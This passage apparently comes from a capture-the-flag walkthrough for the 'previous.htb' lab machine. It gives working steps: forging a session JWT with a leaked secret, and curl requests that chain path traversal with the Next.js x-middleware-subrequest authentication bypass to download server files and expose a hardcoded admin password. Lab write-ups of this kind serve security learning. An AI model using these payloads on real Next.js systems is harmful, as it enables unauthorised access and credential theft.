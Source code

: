```plaintext
import jwt, time
payload = {
    "name": "jeremy",
    "email": "jeremy@previous.htb",
    "sub": "1",
    "iat": int(time.time()),
    "exp": int(time.time()) + 3600
}
print(jwt.encode(payload, "82a464f1c3509a81d5c973c31a23c61a", algorithm="HS256"))
```

* Use the output JWT as a cookie on all authenticated requests.
    

Command usage:

```plaintext
curl -v "http://previous.htb/" \
  -H "Cookie: next-auth.session-token=<JWT_HERE>"
```

## Locating Hardcoded Credentials (Reverse Engineering the App)

## 6\. Dumping Next.js Compiled Manifests & API Handler

Reveal available API routes:

```plaintext
curl -s 'http://previous.htb/api/download?example=../../../../../../app/.next/routes-manifest.json' \
 -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware'
```

Map API endpoint to handler:

* `/api/auth/[...nextauth]` → `/app/.next/server/pages/api/auth/[...nextauth].js`
    

Download the handler:

```plaintext
curl -s 'http://previous.htb/api/download?example=../../../../../../app/.next/server/pages/api/auth/%5B...nextauth%5D.js' \
 -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' -o nextauth.js
```

Grep for credential logic (CredentialsProvider):

```plaintext
grep -iE 'jeremy|password|credential|authorize' nextauth.js | head -n 50
```

Logic:

```plaintext
authorize: async e =>
  e?.username === "jeremy" &&
  e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes")
    ? { id: "1", name: "Jeremy" }
    : null
```
